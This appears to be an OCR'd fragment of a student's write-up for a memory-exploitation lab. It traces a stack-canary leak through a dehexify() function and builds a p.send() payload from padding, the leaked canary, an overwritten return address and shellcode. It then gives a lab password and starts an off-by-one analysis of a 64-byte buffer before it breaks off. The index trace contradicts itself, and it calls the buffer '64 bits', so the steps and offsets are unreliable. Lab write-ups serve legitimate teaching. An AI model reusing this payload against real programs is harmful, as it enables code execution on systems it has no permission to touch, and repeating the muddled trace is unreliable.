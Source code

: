      ### YOUR CODE ENDS HERE ###
     returncode = p.end()
     if returncode == -11: print 'segmentation fault or stack canary!'
     elif returncode != 0: print 'return code', returncode

Tracing code for first line of my solution to jump over NULL byte into canary: 

     p.send('A' * 8 + '\\x' * 3 + \n') :

in while loop of dehexify() function:

Start.  i = 0, j = 0  

        1.  i == 8. The code reads the '\\x' sequence and jumps ahead by 4.

        2.  i == 12. The code reads '\\x' and jumps ahead by 4.

        3.  i == 16. You have jumped over the NULL byte, and are now reading the canary.

        4.  Now reading the canary: In canary, i == 16, j == 11

        4. The code reads last (3rd) '\\x' seq. for canary and jumps ahead by 4 giving i == 20, j == j+1 == 12 

        5. '\n' enters return key and exits program, so...

        our canary will be in i = 17, 18, 19, 20 and j = 12

        But as outside while loop we assign c.answer[j] = 0, where j = 12, so c.answer[12] = 0

        so canary in i = 17, 18, 19, 20 ; j = 0, 

Getting our canary value:

     canary = p.recv(20)[16:19] following the first p.send statement

And using canary, we can do a p.send('A'* m + canary + 'B'* n + rip + SHELLCODE + '\n')

     m = 14 #null BYTE
     n = 12 #null byte
     rip = "\\x50\\xfb\\xff\\xbf"
     p.send('A'* m + canary + 'B'* n + rip + SHELLCODE + '\n')     
          
          
## Problem 4: VEGA
Pass: whyishould

### MAIN IDEA:

 We know that char buf[64] has a size of 64 bits. 
           
    [18]   char buf[64];
 
 Furthermore, we can see that the 'for' loop in flips iterates 65 times :
 
    [9]    for (i = 0; i < n && i <= 64; ++i) (check for i being under or equal to 64 occurs before iteration of i.)
  
### MAGIC NUMBERS: 
  
